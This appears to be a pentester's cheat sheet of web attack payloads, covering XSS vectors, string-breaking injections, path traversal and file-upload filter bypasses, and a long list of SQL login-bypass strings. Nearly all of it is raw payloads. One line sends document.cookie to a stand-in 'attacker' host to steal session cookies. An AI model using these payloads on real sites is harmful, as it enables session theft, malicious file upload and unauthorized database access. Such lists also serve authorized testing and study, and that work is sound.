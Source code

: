 # XSS easy payload

%3Cimg%20src%3D0%20onerror%3D%27alert(00)%27%2F%3E
<img src=0 onerror='alert(00)'/>
<IMG SRC= onmouseover="alert('xxs')">

text with print: <img src=1 onerror=print()>

<img src=0 onerror='alert`1`'/>

<img src=0 onerror='alert(String.fromCharCode(88,83,83))'/>

document.write("<img src=http://attacker/cookie_theif?c="+document.cookie+" />")
console.log('XSS')
(new Image()).src = "https://localhost/log_xss?from=" + window.location;
document.body.innerHTML = 'XSS';


# breaking strings

template literal: ${alert(document.domain)}
breaking string: \';alert(document.domain)//
tag attribute: " autofocus onfocus=alert(document.domain) x="
JS closing previous tag: "><img src=0 onerror=alert(1)>'
check ===location.search===
Add additional parameter (check JS code) = "</select><img%20src=0%20onerror=alert(123)>


# trasversal and fileupload

trasversal: /../../../../
trasversal: filename=../datei.php / ..%2fdatei.php
content-type= type/type

Read: AddType application/x-httpd-php .l33t / .htaccess

Null terminator= %00

Double extension: datei.php.jpg
Trailing: exploit.php.
URL encoding: exploit%2Ephp
semicolon: exploit.asp;.jpg or exploit.asp%00.jp
recursiv: exploit.p.phphp


# SQL login
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x

')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('

')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('

" or true--
" or ""="
" or 1--
" or "x"="

') or true--
') or ('')=('
') or 1--
') or ('x')=('
